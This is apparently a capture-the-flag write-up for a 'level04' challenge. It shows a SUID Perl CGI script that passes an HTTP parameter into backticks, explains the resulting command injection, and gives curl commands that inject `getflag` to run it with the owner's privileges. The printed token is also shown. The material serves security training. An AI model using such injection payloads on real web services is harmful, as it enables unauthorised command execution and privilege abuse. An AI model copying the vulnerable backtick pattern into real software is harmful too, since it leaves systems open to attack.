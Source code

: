 ### Solution

1. **List files in the home directory:**

	```bash
	ls -l
	```

	You’ll see the following SUID Perl script:

	```
	-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
	```

	This script is **owned by `flag04`** and **has the SUID bit set**, meaning it executes with `flag04`'s privileges when run — even from a web request.

2. **Analyze the script source code**

	View the script:

	```bash
	cat level04.pl
	```

	You’ll find:

	```perl
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
	$y = $_[0];
	print `echo $y 2>&1`;
	}
	x(param("x"));
	```

	The script:

	* Imports `param()` from the CGI module to read HTTP parameters.
	* Passes the user input **directly into backticks**, which runs it as a shell command.
	* This results in a classic **command injection vulnerability**.

3. **Exploit the vulnerable CGI parameter**

	You can interact with the web service locally using `curl`:

	```bash
	curl 'http://localhost:4747/level04.pl?x=hello'
	```

	Output:

	```
	hello
	```

	This proves it’s executing `echo hello`.

	Now inject a shell command:

	```bash
	curl 'http://localhost:4747/level04.pl?x=`getflag`'
	```

	Output:

	```
	Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
	```

	You’ve successfully executed `getflag` with `flag04`’s privileges.
